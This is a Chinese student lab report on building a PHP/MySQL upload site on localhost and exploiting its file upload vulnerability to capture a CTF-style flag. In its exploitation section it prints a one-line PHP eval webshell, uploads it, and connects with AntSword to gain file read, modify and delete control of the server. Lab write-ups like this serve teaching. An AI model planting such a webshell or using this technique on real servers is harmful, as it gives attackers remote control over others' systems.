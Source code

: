 # 「320垃圾回收站」综合实践

## 文件上传漏洞的实现和文件上传漏洞Flag

### 实践目的及内容

- 本次项目目的是设计出一个可以实现注册、登录、文件上传以及下载功能，并通过MySQL数据库保存用户信息及上传文件信息的具有实用性功能的网站
- 该实验报告描述了网站修改前的文件上传漏洞以及文件上传漏洞中Flag的查找

### 实验环境

- PHP
- phpMyAdmin
- XAMPP
- Apache
- MySQL
- 中国蚁剑(AntSword)
  
### 实验步骤

#### 实验环境搭建

（实验环境参照胡菲桐、赵雨萌实验报告安装）

- 安装xampp
- 添加系统变量，将php.exe文件所在的路径`D:\xampp\php`添加至`环境变量-系统变量-path`
- 检查环境变量配置，在cmd中输入`php -v`检查是否配置成功
  ![检查php](./img/%E6%A3%80%E6%9F%A5php.png)
- 在VSCode中添加`PHP Server`和`Open PHP/HTML/JS In Browser`
- 设置 `Open PHP/HTML/JS In Browser`
  ![设置扩展](./img/%E6%89%A9%E5%B1%95%E8%AE%BE%E7%BD%AE.png)
  php文件路径设置：你xampp应用中文件夹htdocs在电脑中的路径`D:\xampp\htdocs\`
  ![php文件路径设置](./img/%E8%B7%AF%E5%BE%84%E8%AE%BE%E7%BD%AE.png)
  (php文件记得放在htdocs文件夹里，这样才能运行)
- 点击VSCode的`文件-首选项-设置`，在设置的扩展中找到`setting.json`做以下修改
  ![首选项设置](./img/%E9%A6%96%E9%80%89%E9%A1%B9%E8%AE%BE%E7%BD%AE.png)
- 下载phpMyAdmin并解压到xampp文件夹中
- 复制一份解压后文件夹中的`config.sample.inc.php`并重命名为`config.inc.php`
  打开复制后的文件做出如下修改
  ![config文件修改](./img/config%E6%96%87%E4%BB%B6%E4%BF%AE%E6%94%B9.png)
- 打开xampp，根据要求开启服务`Apache`和`MySQL`
  ![xampp](./img/xampp.png)
- 在浏览器打开[phpMyAdmin](http://localhost/phpmyadmin/)
  新建数据库`login_db`，并在该数据库中创建`user`表，如下图所示
  ![user表](./img/user.png)

#### 文件上传漏洞实验过程

- 编写`upload.php`实现文件的上传功能，以及文件上传页，并与同组同学所编写好的网站其他功能页进行连接
- 打开网页，登陆注册后进入文件上传页面
  ![文件上传页](./img/%E6%96%87%E4%BB%B6%E4%B8%8A%E4%BC%A0%E9%A1%B5.png)

##### 文件上传测试
- 文件上传测试，上传测试图片`test.jpg`
  ![文件上传测试](./img/test.jpg)
- 检查本地`uploadFiles`文件夹，发现图片已成功上传
  ![上传成功](./img/%E4%B8%8A%E4%BC%A0%E6%88%90%E5%8A%9F.jpg)

##### 文件上传漏洞利用

- 编写一句话木马
  ```
  <?php eval($_POST['eval']); ?>
  ```
- 将一句话木马上传到服务器中
  ![上传一句话木马](./img/%E4%B8%80%E5%8F%A5%E8%AF%9D%E6%9C%A8%E9%A9%AC%E4%B8%8A%E4%BC%A0.jpg)
- 通过页面显示的文件路径可以看到一句话木马所在的位置
  ```
  http://localhost/320-bug_Final/%E6%BA%90%E7%A0%81/source/uploadFiles/eval.php
  ```
- 安装`中国蚁剑（AntSword）`，安装教程附在最后参考链接
- 用中国蚁剑去连接到该木马所在的位置
  ![连接木马](./img/%E6%B7%BB%E5%8A%A0%E8%9A%81%E5%89%91.jpg)
- 连接成功，现在可以控制服务器中的数据进行读取，下载，修改，删除等操作
  ![成功连接](./img/%E8%BF%9E%E6%8E%A5%E5%88%B0%E6%9C%8D%E5%8A%A1%E5%99%A8.jpg)

##### 文件上传漏洞Flag查找

- 利用蚁剑访问到服务器后，开始在服务器里的各级菜单查找Flag
- 发现在`source`文件夹下有一个叫做`guesswhereiam`的文件夹
- 访问该文件夹，发现Flag
  ![找到flag](./img/%E6%89%BE%E5%88%B0flag.jpg)
  ![确定flag](./img/%E7%A1%AE%E5%AE%9Aflag.jpg)

### 参考链接

- [VScode调试php文件（详细且简单易操作）](https://blog.csdn.net/xin279y/article/details/125690259)
- [登陆网站&上传文件漏洞搭建&补洞](https://blog.csdn.net/plant1234/article/details/121725088)
- [中国蚁剑(AntSword)安装](https://chenchena.blog.csdn.net/article/details/123427001)